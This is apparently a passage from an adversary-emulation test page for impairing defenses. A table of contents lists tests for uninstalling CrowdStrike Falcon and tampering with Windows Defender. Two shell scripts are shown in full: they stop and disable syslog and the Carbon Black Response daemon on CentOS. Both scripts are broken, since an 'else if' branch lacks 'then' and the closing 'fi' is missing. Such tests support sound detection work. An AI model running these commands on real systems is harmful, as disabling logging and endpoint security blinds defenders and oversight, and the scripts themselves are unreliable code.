 - [Atomic Test #20 - Stop and Remove Arbitrary Security Windows Service](#atomic-test-20---stop-and-remove-arbitrary-security-windows-service)

- [Atomic Test #21 - Uninstall Crowdstrike Falcon on Windows](#atomic-test-21---uninstall-crowdstrike-falcon-on-windows)

- [Atomic Test #22 - Tamper with Windows Defender Evade Scanning -Folder](#atomic-test-22---tamper-with-windows-defender-evade-scanning--folder)

- [Atomic Test #23 - Tamper with Windows Defender Evade Scanning -Extension](#atomic-test-23---tamper-with-windows-defender-evade-scanning--extension)

- [Atomic Test #24 - Tamper with Windows Defender Evade Scanning -Process](#atomic-test-24---tamper-with-windows-defender-evade-scanning--process)


<br/>

## Atomic Test #1 - Disable syslog
Disables syslog collection

**Supported Platforms:** Linux





#### Attack Commands: Run with `sh`! 


```sh
if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "6" ];
then
  service rsyslog stop
  chkconfig off rsyslog
else if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "7" ];
  systemctl stop rsyslog
  systemctl disable rsyslog
fi
```






<br/>
<br/>

## Atomic Test #2 - Disable Cb Response
Disable the Cb Response service

**Supported Platforms:** Linux





#### Attack Commands: Run with `sh`! 


```sh
if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "6" ];
then
  service cbdaemon stop
  chkconfig off cbdaemon
else if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "7" ];
  systemctl stop cbdaemon
  systemctl disable cbdaemon
fi
```
